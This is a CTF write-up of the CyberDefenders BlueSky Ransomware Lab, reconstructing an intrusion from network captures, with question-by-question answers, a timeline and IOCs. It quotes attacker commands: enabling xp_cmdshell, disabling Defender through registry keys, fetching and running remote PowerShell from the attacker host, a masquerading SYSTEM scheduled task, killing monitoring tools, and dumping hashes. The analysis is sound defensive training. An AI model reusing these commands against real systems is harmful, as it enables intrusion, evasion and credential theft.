# BlueSky Ransomware Lab — CTF Writeup

* **Platform:** CyberDefenders  
* **Challenge:** BlueSky Ransomware Lab  
* **Category:** Network Forensics / Ransomware Analysis  
* **Difficulty:** Hard  
* **Analyst:** Mahmoud Hussien 
* **Tools:** Wireshark, CyberChef, VirusTotal  
* **Artefacts:** PCAP + PowerShell scripts + Ransomware sample

---

## Scenario Overview

A high-profile corporation reported a significant security incident involving ransomware. Analysis of network traffic confirmed a structured multi-stage intrusion: the attacker scanned the network, exploited an MS-SQL server via default credentials, enabled `xp_cmdshell` for command execution, injected a C2 agent into `winlogon.exe`, downloaded evasion and persistence scripts, dumped credentials, performed lateral movement via Pass-the-Hash using `Invoke-SMBExec`, and finally deployed **BlueSky Ransomware** (`javaw.exe`) across the network.

---

## Attack Chain Overview

```
[1] Reconnaissance      → TCP port scan from 87.96.21.84
[2] Initial Access      → MS-SQL brute-force → sa:cyb3rd3f3nd3r$
[3] Execution           → xp_cmdshell enabled → OS command execution
[4] Privilege Escalation → C2 injected into winlogon.exe (SYSTEM)
[5] Defense Evasion     → checking.ps1 → disables Defender/AV
[6] Persistence         → del.ps1 → schtask \Microsoft\Windows\MUI\LPupdate
[7] Credential Access   → Invoke-PowerDump.ps1 → C:\ProgramData\hashes.txt
[8] Discovery           → extracted_hosts.txt (4 internal hosts)
[9] Lateral Movement    → Invoke-SMBExec.ps1 → Pass-the-Hash
[10] Impact             → javaw.exe → BlueSky ransomware deployed
```

---

## Question 1 — What is the source IP responsible for port scanning?

### Investigation

**Wireshark Filter:**

```
tcp.flags.syn == 1 && tcp.flags.ack == 0
```

A high-density burst of TCP SYN-only packets targeting multiple ports in rapid sequence — with no corresponding ACK packets — confirmed automated port scanning activity. All packets originated from a single external IP.

### Answer

```
87.96.21.84
```


---

## Question 2 — What is the targeted account username?

### Investigation

**Wireshark Filter:**

```
tcp.port == 1433
```

Filtering for MS-SQL traffic (TDS protocol on port 1433) and following the TCP streams revealed repeated authentication attempts. The `sa` (System Administrator) account is the default built-in MS-SQL superuser — the first target of any automated database brute-force.

### Answer

```
sa
```


---

## Question 3 — What is the correct password discovered by the attacker?

### Investigation

Reviewing Frame 2641 in the PCAP — the first successful TDS authentication response (`Login ACK`) — and extracting the credentials from the TDS login packet:

```
Username: sa
Password: cyb3rd3f3nd3r$
```

### Answer

```
cyb3rd3f3nd3r$
```


---

## Question 4 — What setting did the attacker enable to execute commands?

### Investigation

**Wireshark Filter:**

```
tcp.port == 1433
```

Frame 2643 captured the SQL command sequence sent immediately after successful authentication. The attacker reconfigured the MS-SQL server to allow OS-level command execution:

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

`xp_cmdshell` is a disabled-by-default MS-SQL stored procedure that allows executing arbitrary Windows shell commands directly from within a SQL query — effectively turning the database into a remote command execution engine.

### Answer

```
xp_cmdshell
```


---

## Question 5 — What process did the attacker inject the C2 into?

### Investigation

Windows PowerShell Event ID 600 logs captured in the PCAP reveal a sub-execution step where a Metasploit/MSFConsole C2 agent performed **thread injection** into a target process. The target was chosen because:

- `winlogon.exe` runs under `NT AUTHORITY\SYSTEM` context
- Injecting into it grants the attacker a SYSTEM-level security token
- It's a critical Windows process that's always running and rarely monitored for injection

### Answer

```
winlogon.exe
```


---

## Question 6 — What is the URL of the first file downloaded?

### Investigation

**Wireshark Filter:**

```
http.request.method == "GET" && ip.src == 87.96.21.81
```

Following privilege escalation to SYSTEM, the compromised host initiated HTTP GET requests to the attacker's Python SimpleHTTP server. The first script downloaded was the environmental profiling and defense evasion stager:

```
GET /checking.ps1 HTTP/1.1
Host: 87.96.21.84
```

Server response confirmed delivery: `HTTP/1.0 200 OK` with `Content-Length: 5024`.

### Answer

```
http://87.96.21.84/checking.ps1
```


---

## Question 7 — What Group SID does the malicious script check to verify privileges?

### Investigation

Static analysis of `checking.ps1` (extracted from the PCAP HTTP stream) revealed the privilege verification logic at the beginning of the script:

```powershell
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

**SID Breakdown:**

| Component | Value |
|---|---|
| `S-1-5` | NT Authority |
| `32` | Built-in domain |
| `544` | Administrators group |

`S-1-5-32-544` is the well-known SID for the local **Administrators** group. The script uses this to branch between two execution paths — `CleanerEtc` (with admin/SYSTEM privileges) or `CleanerNoPriv` (limited user).

### Answer

```
S-1-5-32-544
```


---

## Question 8 — What registry keys did the attacker use to disable Windows Defender?

### Investigation

Inside the `Disable-WindowsDefender` function within `checking.ps1`, the script iterates over a hardcoded array of registry key names and sets each to `1` (disabled):

```powershell
$defenderRegistryKeys = @(
    "DisableAntiSpyware",
    "DisableRoutinelyTakingAction",
    "DisableRealtimeMonitoring",
    "SubmitSamplesConsent",
    "SpynetReporting"
)

foreach ($key in $defenderRegistryKeys) {
    Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender" -Name $key -Value 1
}
```

All keys are set under `HKLM:\SOFTWARE\Microsoft\Windows Defender`.

### Answer

```
DisableAntiSpyware, DisableRoutinelyTakingAction, DisableRealtimeMonitoring, SubmitSamplesConsent, SpynetReporting
```


---

## Question 9 — What is the URL of the second file downloaded?

### Investigation

Within `checking.ps1`'s `CleanerEtc` function (executed when running with admin privileges), the script downloads a second stage script to disk:

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\ProgramData\del.ps1")
```

This download was confirmed in Frame 4251 of the PCAP.

### Answer

```
http://87.96.21.84/del.ps1
```


---

## Question 10 — What is the full name of the scheduled task created for persistence?

### Investigation

Inside `checking.ps1`'s `CleanerEtc` function, after downloading `del.ps1`, a scheduled task was registered using `schtasks.exe`:

```powershell
C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" `
    /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1" `
    /ru SYSTEM /sc HOURLY /mo 4 /create
```

The task name `\Microsoft\Windows\MUI\LPupdate` deliberately mimics a legitimate Windows language pack update task path — a masquerading technique to deceive administrators browsing scheduled tasks.

### Answer

```
\Microsoft\Windows\MUI\LPupdate
```


---

## Question 11 — What is the MITRE ID of the main tactic in del.ps1?

### Investigation

Static analysis of `del.ps1` content:

```powershell
# Remove WMI event consumer bindings
Get-WmiObject _FilterToConsumerBinding -Namespace root\subscription | Remove-WmiObject

# Kill security monitoring tools
$list = "taskmgr", "perfmon", "SystemExplorer", "taskman", "ProcessHacker",
        "procexp64", "procexp", "Procmon", "Daphne"
foreach($task in $list) {
    stop-process -name $task -Force
}
```

The script's primary objective is to **blind defenders** by:
1. Removing WMI event consumer bindings (destroys monitoring hooks)
2. Killing all security analysis and process monitoring tools

This maps directly to **MITRE Tactic: Defense Evasion (TA0005)**.

### Answer

```
TA0005
```


---

## Question 12 — What PowerShell script was used for credential dumping?

### Investigation

Inside `ichigo-lite.ps1` (the main orchestrator script downloaded and executed in-memory), the credential harvesting sequence:

```powershell
# Download and load PowerDump in-memory
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/Invoke-PowerDump.ps1')

# Execute hash dump via Base64-encoded command
$EncodedExec = "SW52b2tlLVBvd2VyRHVtcCB8IE91dC1GaWxlIC1GaWxlUGF0aCAiQzpcUHJvZ3JhbURhdGFcaGFzaGVzLnR4dCI="
```

**Decoded (CyberChef — From Base64):**

```powershell
Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"
```

`Invoke-PowerDump` reads the SAM and SYSTEM registry hives directly to extract NTLM password hashes — requiring SYSTEM privileges, which the attacker already had via `winlogon.exe` injection.

### Answer

```
Invoke-PowerDump.ps1
```


---

## Question 13 — What is the name of the file containing dumped credentials?

### Investigation

From the decoded Base64 command in `ichigo-lite.ps1`:

```powershell
Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"
```

The output is saved to a plaintext file in `C:\ProgramData\` — a writable system directory. The file contains NTLM hashes in the format:

```
username:RID:LM_hash:NT_hash:::
```

### Answer

```
hashes.txt
```


---

## Question 14 — What is the name of the file containing discovered hosts?

### Investigation

In `ichigo-lite.ps1`, the lateral movement phase begins by fetching the target host list:

```powershell
$hostsContent = Invoke-WebRequest -Uri "http://87.96.21.84/extracted_hosts.txt" | Select-Object -ExpandProperty Content
```

The file content (confirmed from PCAP Frame download):

```
Host: 87.96.21.71
Host: 87.96.21.75
Host: 87.96.21.80
Host: 87.96.21.81
```

The script then iterates over these 4 hosts and uses `Invoke-SMBExec` with the dumped NTLM hashes to authenticate via **Pass-the-Hash** — spreading the ransomware laterally.

### Answer

```
extracted_hosts.txt
```


---

## Question 15 — What is the name of the ransom note file?

### Investigation

Behavioral analysis of `javaw.exe` (retrieved from Frame 4469) via sandbox detonation confirmed:

- Files encrypted with `.bluesky` extension appended
- Two ransom note files dropped in every encrypted directory:
  - `# DECRYPT FILES BLUESKY #.html`
  - `# DECRYPT FILES BLUESKY #.txt`

The binary was confirmed malicious: SHA-256 `3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb`
, Sandbox Score: 100/100 (MAL).



### Answer

```
# DECRYPT FILES BLUESKY #
```


---

## Question 16 — What is the ransomware family name?

### Investigation

Submitted `javaw.exe` SHA-256 hash to VirusTotal and multiple sandbox platforms:

- **VirusTotal:** Multiple vendors classified as BlueSky
- **Sandbox ID:** 1891032 — Verdict: MAL, Score: 100/100
- **Behavior:** Recursive file encryption + `.bluesky` extension + ransom note drop
- **Masquerading:** Binary named `javaw.exe` to impersonate Java Runtime Environment

### Answer

```
BlueSky
```


---

## Script Analysis Summary

### checking.ps1 — Environmental Profiling & Defense Suppression

| Function | Action |
|---|---|
| Privilege check | Verifies membership in `S-1-5-32-544` (Administrators) |
| `StopAV` | Disables Windows Defender via registry + kills WinDefend, Malwarebytes, Sophos |
| `CleanerEtc` | Downloads `del.ps1` → creates scheduled task → runs `ichigo-lite.ps1` |
| `CleanerNoPriv` | Alternative path for non-admin execution |

### del.ps1 — Process Killer & Event Suppression (TA0005)

```powershell
# Destroys WMI monitoring bindings
Get-WmiObject _FilterToConsumerBinding -Namespace root\subscription | Remove-WmiObject

# Kills security tools: TaskMgr, ProcMon, Process Hacker, etc.
stop-process -name "taskmgr","procexp","ProcessHacker"... -Force
```

### ichigo-lite.ps1 — Main Orchestrator

```
1. Load Invoke-PowerDump.ps1 (in-memory)
2. Load Invoke-SMBExec.ps1 (in-memory)
3. Fetch extracted_hosts.txt (target list)
4. Dump hashes → C:\ProgramData\hashes.txt
5. For each host: Invoke-SMBExec (Pass-the-Hash lateral movement)
6. Download javaw.exe (BlueSky ransomware)
```

---

## Full Attack Timeline

| Time (Relative) | Source | Destination | Event |
|---|---|---|---|
| T+2.82s | `87.96.21.84` | `87.96.21.81` | TCP SYN port scan |
| T+19.79s | `87.96.21.84` | `87.96.21.81` | MS-SQL brute-force → `sa:cyb3rd3f3nd3r$` (Frame 2641) |
| T+19.80s | `87.96.21.84` | `87.96.21.81` | `xp_cmdshell` enabled (Frame 2643) |
| T+~60s | Local | `DESKTOP-7EQVM78` | C2 injected into `winlogon.exe` (Event ID 600) |
| T+136.85s | `87.96.21.81` | `87.96.21.84` | GET `/checking.ps1` (Frame 4214) |
| T+139.12s | `87.96.21.81` | `87.96.21.84` | GET `/del.ps1` (Frame 4251) |
| Sequential | Local | Registry | Windows Defender disabled — 5 registry keys |
| Sequential | Local | Task Scheduler | `\Microsoft\Windows\MUI\LPupdate` created (SYSTEM, hourly) |
| T+147.62s | `87.96.21.81` | `87.96.21.84` | GET `/Invoke-PowerDump.ps1` (Frame 4511) |
| Sequential | Local | `C:\ProgramData\` | `hashes.txt` written |
| Sequential | `87.96.21.81` | `87.96.21.84` | GET `/extracted_hosts.txt` |
| Sequential | `87.96.21.81` | Internal network | Pass-the-Hash via `Invoke-SMBExec` → 4 hosts |
| T+141.36s | `87.96.21.81` | `87.96.21.84` | GET `/javaw.exe` (Frame 4469) |
| Post-download | Local | Filesystem | BlueSky encrypts files → `.bluesky` + ransom notes |

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| IP | `87.96.21.84` | Attacker C2 / Python SimpleHTTP server |
| IP | `87.96.21.81` | Primary victim (MS-SQL server) |
| Credential | `sa:cyb3rd3f3nd3r$` | Compromised MS-SQL SA account |
| URL | `http://87.96.21.84/checking.ps1` | Stage 1 — Defense evasion + privilege check |
| URL | `http://87.96.21.84/del.ps1` | Stage 2 — Process killer + persistence |
| URL | `http://87.96.21.84/ichigo-lite.ps1` | Orchestrator — credential dump + lateral movement |
